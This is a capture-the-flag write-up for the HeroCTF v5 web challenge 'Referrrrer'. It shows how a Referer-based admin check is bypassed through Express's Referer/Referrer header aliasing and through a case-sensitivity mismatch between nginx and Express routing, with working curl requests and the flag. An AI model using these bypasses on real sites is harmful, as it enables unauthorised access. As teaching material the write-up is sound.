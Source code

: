 ```yaml
---
title: "[Easy][HeroCTF v5][Web] Referrrrer"
date: "2023-14-13"
categories: [ "CTF", "HeroCTF v5", "Web" ]
tags: [ "Configuration", "Referer", "NGINX", "Express" ]
slug: "referrrrer"
ShowToc: false
draft: false
weight: 2
---
```


## Introduction

Bypass the security of a website that implements [Referer](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer)-based authentication.

The challenge sources are available on my GitHub: [Referer Sources](https://github.com/mxcezl/HeroCTF-v5-Sources/tree/main/Web/Referrrrer/Referrrrer%20Sources)

## Solution

By looking at the challenge sources, we find two folders: `app` and `nginx`.

In the `nginx` folder, we find an `nginx.conf` file that contains the server's configuration.

```nginx
worker_processes auto;

events {
    worker_connections 128;
}

http {
    charset utf-8;

    access_log /dev/stdout;
    error_log /dev/stdout;

    upstream express_app {
        server app:3000;
    }

    server {
        listen 80;
        server_name example.com;

        location / {
            proxy_pass http://express_app;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
        }

        location /admin {
            if ($http_referer !~* "^https://admin\.internal\.com") {
                return 403;
            }

            proxy_pass http://express_app;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
        }
    }
}
```

We can see that there is a `/admin` location that checks if the `Referer` header starts with `https://admin.internal.com`. If it doesn't, a 403 error is returned.

On the `app` side, there is an `index.js` file that contains the server's code.

```javascript
const express = require("express")
const app = express()


app.get("/", (req, res) => {
    res.send("Hello World!");
})

app.get("/admin", (req, res) => {
    if (req.header("referer") === "YOU_SHOUD_NOT_PASS!") {
        return res.send(process.env.FLAG);
    }

    res.send("Wrong header!");
})

app.listen(3000, () => {
    console.log("App listening on port 3000");
})
```

These are the only files that are useful to solve the challenge.

We understand that the goal of the challenge is to access the `/admin` endpoint to retrieve the flag.

There are two checks to pass:

- In `nginx.conf`: the `$http_referer` variable must start with `https://admin.internal.com`.
- In `index.js`: the `req.header("referer")` variable must be equal to `YOU_SHOUD_NOT_PASS!`.

By taking a closer look at the `Referer` header, we find [this page](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer) that explains that this header is sent by the browser when clicking on a link.

We also learn that "referer" is a misspelling of "referrer," which is why it is written with a single "r."

![Referer Header Documentation](/images/heroctfv5/web/referer_mozilla_misspelling.png)

In nginx, `$http_referer` is a variable that contains the value of the `Referer` header sent by the browser.

However, for `index.js`, `req.header("referer")` is a function that does not work like the other getters.

On the [official documentation of `req.get(...)` in Express v4.x](http://expressjs.com/en/4x/api.html#req.get), we learn that this function returns the value of the **`Referer` or `Referrer`** header sent by the browser.


![Explication Referer header](/images/heroctfv5/web/referrrrer_express_req_get_explain.png)

![Documentation of req.get(...) in Express v4.x](/images/heroctfv5/web/referrrrer_express_req_get.png)

This is where the vulnerability of the challenge lies.

We can craft a request that contains the `Referrer` header with the value `YOU_SHOUD_NOT_PASS!` and the `Referer` header with the value `https://admin.internal.com`.

```bash
curl 'http://static-01.heroctf.fr:7000/admin' -H 'Referer: https://admin.internal.com/' -H 'Referrer: YOU_SHOUD_NOT_PASS!'
Hero{ba7b97ae00a760b44cc8c761e6d4535b}
```

Flag: `Hero{ba7b97ae00a760b44cc8c761e6d4535b}`

## Alternative Solution

It is possible to bypass the nginx check by exploiting the fact that Express routes are case-insensitive while nginx routes are case-sensitive.

Accessing the `/Admin` route will not trigger the nginx check on `$http_referer` since the nginx route is `/admin`.

Express, on the other hand, does not differentiate between `/admin` and `/Admin` and triggers the check on `req.header("referer")`.

The Express check passes if `req.header("referer")` is equal to `YOU_SHOUD_NOT_PASS!`.

```bash
curl -i -H 'Referer: YOU_SHOUD_NOT_PASS!' http://static-01.heroctf.fr:7000/Admin

HTTP/1.1 200 OK
Server: nginx/1.24.0
Date: Sun, 14 May 2023 13:23:11 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 38
Connection: keep-alive
X-Powered-By: Express
ETag: W/"26-Cj1P1GdO8Vke/DfJFC3B2cH95nw"

Hero{ba7b97ae00a760b44cc8c761e6d4535b}
```

## Tips & Tricks

- The header `Referer` is a misspelling of `Referrer` ([source](https://en.wikipedia.org/wiki/HTTP_referer)).
- `$http_referer` is an nginx variable that contains the value of the `Referer` header sent by the browser.
- In Express v4.x, calling the function `req.get("referer")` returns the value of the **`Referer` or `Referrer`** header sent by the browser.
- Route names exposed with Express v4.x are case-insensitive; `/Admin` and `/admin` are equivalent ([source](http://expressjs.com/en/api.html)).
  - `CaseSensitive: Disabled by default, treating “/Foo” and “/foo” as the same.`
- Route names in the nginx `location` configuration are case-sensitive; `/Admin` and `/admin` are not equivalent.